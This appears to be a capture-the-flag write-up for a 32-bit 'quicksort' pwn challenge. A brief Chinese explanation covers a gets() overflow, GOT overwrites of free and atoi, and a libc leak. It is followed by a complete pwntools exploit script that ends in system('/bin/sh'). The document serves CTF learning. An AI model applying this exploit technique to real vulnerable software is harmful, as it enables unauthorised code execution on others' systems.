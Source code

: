 ## Pwn

### Quick sort

```
// file
quicksort: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a19eef0b6e1b24933c02b5bdaafd25c9fa4b9570, stripped

// checksec
[*] '/tmp/quicksort'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

`gets()` 可以控制 stack，hijack pointer 任意寫，並且因為沒有 PIE + partial RELRO，所以可以改寫 `free_got` 避免 `free()` 的時候 pointer invalid，而透過改寫為 `main()`，在之後印出結果時也可以透過控制 ptr 來 leak libc。而第二次執行 `main()` 時，再用一樣的方式將 `system()` 寫入 `atoi()`，最後輸入 `/bin/sh` 即可 call `system("/bin/sh")`。

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'i386'
context.terminal = ['tmux', 'splitw', '-h']

# r = process("./Q", env={"LD_PRELOAD": "./libc.so.6"}, aslr=False)
r = process("./Q", env={"LD_PRELOAD": "./libc.so.6"})
# gdb.attach(r, """
# # gets
# b *0x8048901

# # scanf
# # b *0x80488bd
# """)

_main = 0x8048816
__stack_chk_fail_got = 0x804a024
_free_got = 0x0804a018
_stderr = 0x804a060
_atoi_got = 0x804a038

r.sendlineafter('how many numbers do you want to sort?', '3')
r.sendlineafter(' number:', str(_main).encode().ljust(0x2c-0x1c, b'\x00') + p32(3) + p32(0)*2 + p32(_free_got))
r.sendlineafter(' number:', str(0).encode().ljust(0x2c-0x1c, b'\x00') + p32(2) + p32(4)*2 + p32(_stderr))

r.recvuntil('Here is the result:\n')
libc = int(r.recvuntil(' ', drop=True)) - 0x1b2cc0
_system = libc + 0x3ada0
info(f"libc: {hex(libc)}")
info(f"_system: {hex(_system)}")

r.sendlineafter('how many numbers do you want to sort?', '3')
r.sendlineafter(' number:', str(_system).encode().ljust(0x2c-0x1c, b'\x00') + p32(3) + p32(0)*2 + p32(_atoi_got))
r.sendlineafter('the 2th number:', '/bin/sh')

```